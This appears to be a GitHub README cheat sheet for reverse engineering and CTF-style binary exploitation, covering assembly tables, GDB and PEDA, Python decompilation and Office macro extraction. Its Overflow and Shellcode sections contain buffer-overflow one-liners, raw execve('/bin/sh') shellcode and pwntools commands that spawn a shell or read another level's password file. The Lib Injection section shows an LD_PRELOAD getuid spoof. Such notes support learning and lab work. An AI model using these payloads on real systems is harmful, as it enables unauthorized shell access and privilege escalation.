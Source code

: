 <picture>
    <source height="100px" srcset="https://user-images.githubusercontent.com/22857002/173634301-11eb983d-29a7-4efb-9be3-ab2179eab6b7.svg#gh-dark-mode-only" media="(prefers-color-scheme: dark)">
    <img height="100px" src="https://user-images.githubusercontent.com/28403617/172731874-c08c9da6-bac7-4836-b8bc-3744087d30a3.svg#gh-light-mode-only">
</picture>

---

- [ASM](#asm)
- [Binary ninja](#binary-ninja)
- [Decompile Python Executable](#decompile-python-executable)
- [GDB](#gdb)
- [Lib Injection](#lib-injection)
- [Macro Office PPTM](#macro-office-pptm)
- [OverFlow](#overflow)
- [Shellcode](#shellcode)

# ASM
### Variables
| x64     | x32       | What is ?               |
|:-------:|:---------:|-------------------------|
| RAX     | EAX       | Return Value            |
| RCX     | ECX       | Counter (or Fourth Arg) |
| RDX     | EDX       | Third Arg               | 
| RSI     | ESI       | Second Arg              |
| RDI     | EDI       | First Arg of Function   |
| RSP     | ESP       | Stack Pointer           |
| RIP     | EIP       | Next Instruction        |
| R8-R11  | r8d-r11d  | Scratch register        |
| R12-R15 | r12d-r15d | Preserved register      |

[Source](https://www.cs.uaf.edu/2017/fall/cs301/lecture/09_11_registers.html)

## Operation
| Operation             | Explication             |
|:----------------------|-------------------------|
| **MOV** size dest,src | dest ← src              |
| **LEA** dest,\[op\]   | dest ← addr op          |
| **PUSH** op           | Increase RSP & Store op |
| **POP** op            | Load op & Discrease RSP |
|                       |                         |
| **ADD** op1,op2       | op1 ← op1 + op2         |
| **SUB** op1,op2       | op1 ← op1 - op2         |
| **NEG** reg           | reg ← -reg              |
| **INC** reg           | reg ← reg + 1           |
| **DEC** reg           | reg ← reg - 1           |
|                       |                         |
| **AND** op1,op2       | op1 ← op1 & op2         |
| **OR**  op1,op2       | op1 ← op1 | op2         |
| **XOR** op1,op2       | op1 ← op1 ^ op2         |
|                       |                         |
| **CMP** op1,op2       | op1 - op2               |
| **TEST** op1,op2      | op1 & op2               |
| **JMP** op            | Jump to op              |

[Source - Page 21](https://www.lacl.fr/tan/asm)

# Overflow
### Basic
```bash
(python -c "import struct; print('A' * (100 - 0) + struct.pack('<I', 0xffffffff))")
```

### Shellcode
```bash
(python -c "import struct; print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * (100 - 21) + struct.pack('<I', 0xffffffff))")
```

# Shellcode
### Cat
```bash
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.cat('/home/users/level05/.pass')); print(shell); print(len(shell))"
```

### Exec sh 1
```bash
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.sh()); print(shell); print(len(shell))"
```

### Exec sh 2
```
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
21
```

# GDB
### Command
```gdb
b *0x12345678      # Breakpoint
b strcpy           # Breakpoint
r                  # Run program
r < <(echo lol)    # Run with pipe
r arg1 arg2        # Run with arg
c                  # Continue
n                  # Next operation
set $eax=0x00      # Set variable
info register      # Show Register
```

### Print
```gdb
x/s "string"
x/d 53
x/x 0xff
help x

print $rax
```

- [Gdb cheatsheet - gabriellesc](https://gabriellesc.github.io/teaching/resources/GDB-cheat-sheet.pdf)
- [Gdb cheatsheet - darkdust](https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf)

### Get env address
```gdb
x/10s **(char***)&environ
```

## Peda
### Install
```bash
git clone https://github.com/longld/peda.git ~/.peda
echo "source ~/.peda/peda.py" >> ~/.gdbinit
echo "DONE! debug your program with gdb and enjoy"
```

# Binary ninja
### Scrap code from html

```javascript
let result = '';
[...document.querySelectorAll('.LinearDisassemblyLine')].forEach(parent_elmt => {
  [...parent_elmt.children].forEach(children_elmt => {
    result += children_elmt.textContent
  });
  result +=  '\n'
});
console.log(result);
```

# Lib Injection
- Recreate getuid function
```C
uid_t	getuid(void)
{
	return (4242);
}
```
- compile
```bash
gcc -shared -fpic lib.c -o libnike.so -m32
```
- run and inject
```bash
LD_PRELOAD=./libnike.so ./exec
```

# Decompile Python Executable
Convert executable into .pyc
```bash
git clone https://github.com/extremecoders-re/pyinstxtractor
cd pyinstxtractor
python3 pyinstxtractor.py exec
```

Disassembly .pyc (compatible python 3.9.2)
```bash
git clone https://github.com/zrax/pycdc
cd pycdc
cmake
make
./pycdc file.pyc # Convert .pyc into .py
./pycdas file.pyc # Convert .pyc into byte-code disassembly
```

# Macro Office PPTM
### Install
```bash
sudo pip3 install oletools
```

### Decompress PPTM
```bash
olevba  -c file.pptm
```

- [ViperMonkey](https://github.com/decalage2/ViperMonkey)